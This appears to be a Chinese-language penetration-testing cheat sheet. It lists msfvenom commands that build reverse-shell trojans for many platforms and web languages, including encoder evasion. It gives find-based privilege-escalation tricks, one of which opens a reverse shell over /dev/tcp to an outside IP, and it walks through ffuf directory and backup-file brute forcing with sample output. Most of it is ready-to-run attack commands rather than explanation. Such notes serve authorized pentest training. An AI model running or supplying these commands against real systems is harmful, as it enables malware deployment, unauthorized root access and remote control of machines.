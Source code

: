 # msf 生成木马

注意：msfconsole连接的时候的`payload`应该为参数`-p`的值

```
Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=< Your IP Address> LPORT=< Your Port to Connect On> -f elf -o shell.elf

Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe
msfvenom -p windows/meterpreter/reverse_tcp lhost=172.17.17.128 lport=5555 -e x86/shikata_ga_nai -i 3 -b '\x00' -f exe -o shell.exe


Mac
msfvenom -p osx/x86/shell/reverse_tcp LHOST= LPORT= -f macho -o shell.machoWeb Payloads

PHP
msfvenom -p php/meterpreter/reverse_tcp LHOST= LPORT= -f raw -o shell.php

ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp -o shell.asp

JSP
msfvenom -p java/jsp_shell/reverse_tcp LHOST= LPORT= -f raw -o shell.jsp

WAR
msfvenom -p java/jsp_shell/reverse_tcp LHOST= LPORT= -f war -o shell.war
Pythonmsfvenom -p cmd/unix/reverse_python LHOST= LPORT= -f raw -o shell.py

Bash
msfvenom -p cmd/unix/reverse_bash LHOST= LPORT= -f raw -o shell.sh

Perl
msfvenom -p cmd/unix/reverse_perl LHOST= LPORT= -f raw -o shell.pl
```

# 提权

## find 命令提权n种姿势

推荐：`find . -exec /bin/sh -p \; -quit`

```bash
# 姿势一
find / -perm -g=s -type f 2>/dev/null
find . -exec /bin/sh -p \; -quit

# 姿势二
touch getshell
find / -type f -name getshell -exec "whoami" \;
find / -type f -name getshell -exec "/bin/sh" \;

# 姿势三	abc 为文件名，必须存在！
find / -name abc -exec /bin/sh -p \;
find abc -exec "/bin/sh" \;

# 姿势四，反弹shell
find /etc/passwd -exec bash -ip >& /dev/tcp/192.168.2.128/9919 0>&1 \;
```

# FUFF 工具使用

## 1. 目录爆破

### 1.1 基础爆破

在需要爆破的位置拿`FUZZ`代替

```bash
┌──(kali㉿kali)-[~/burpsuite_pro_v2022.1.1]
└─$ ffuf -u http://192.168.231.156/blog-post/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

ffuf -u URL -w Wordlist
```

![image-20231119160449654](%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%B0%8F%E8%AE%B0.assets/image-20231119160449654.png)

### 1.2 递归爆破

```bash
┌──(kali㉿kali)-[~]
└─$ ffuf -u http://192.168.231.156/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -recursion

ffuf -u URL -w Wordlist -recursion
```

![image-20231119161052204](%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%B0%8F%E8%AE%B0.assets/image-20231119161052204.png)

## 2. 爆破指定扩展名

此方法通常可以用来爆破网站的备份文件

```bash
┌──(kali㉿kali)-[~]
└─$ ffuf -u http://192.168.231.156/FUZZ -w wordlist/SecLists/Fuzzing/1-4_all_letters_a-z.txt -e .bak

ffuf -u URL -w Wordlist -e 扩展名
```

## 3. 静音模式和输出

可以看到fuff会输出很多信息，导致看起来有点难受，`-s`选项会减少这类输出

```bash
┌──(kali㉿kali)-[~]
└─$ ffuf -u http://192.168.231.156/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -s 

ffuf -u URL -w Wordlist -s
```

![image-20231119162728048](%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%B0%8F%E8%AE%B0.assets/image-20231119162728048.png)

很多时候我们希望将结果保存起来，可以用下面这种方式

```bash
┌──(kali㉿kali)-[~]
└─$ ffuf -u http://192.168.231.156/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -s |tee outfile.txtt 

ffuf -u URL -w Wordlist -s |tee outfile.txt
```

![image-20231119163142511](%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%B0%8F%E8%AE%B0.assets/image-20231119163142511.png)

## 4. 其他格式保存

FFUF还支持输出下面格式的报告：

+ JSON
+ ejson
+ html
+ md
+ csv
+ ecsv

```bash
┌──(kali㉿kali)-[~]
└─$ ffuf -u http://192.168.231.156/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -of html -o report.html

ffuf -u URL -w Wordlist -of 文件格式 -o 输出路径
```

## 5. Cookie 认证

FUFF 还支持在爆破的时候修改HTTP报文以通过某些认证

```bas
┌──(kali㉿kali)-[~]
└─$ ffuf -u http://192.168.231.156/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -b "NAME1=VALUE1;NAME2=VALUE2"
```

## 6. HTTP 请求扫描

FUFF 可以直接引用HTTP请求报文来做扫描

在BurpSuite中保存HTTP请求报文

<img src="%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%B0%8F%E8%AE%B0.assets/image-20231119164809955.png" alt="image-20231119164809955" style="zoom:67%;" />

修改HTTP报头添加FFUF占位符

![image-20231119164901563](%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%B0%8F%E8%AE%B0.assets/image-20231119164901563.png)

FUFF爆破

```bash
┌──(kali㉿kali)-[~]
└─$ ffuf -request request -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 

ffuf -request 请求头 -w wordlist
```

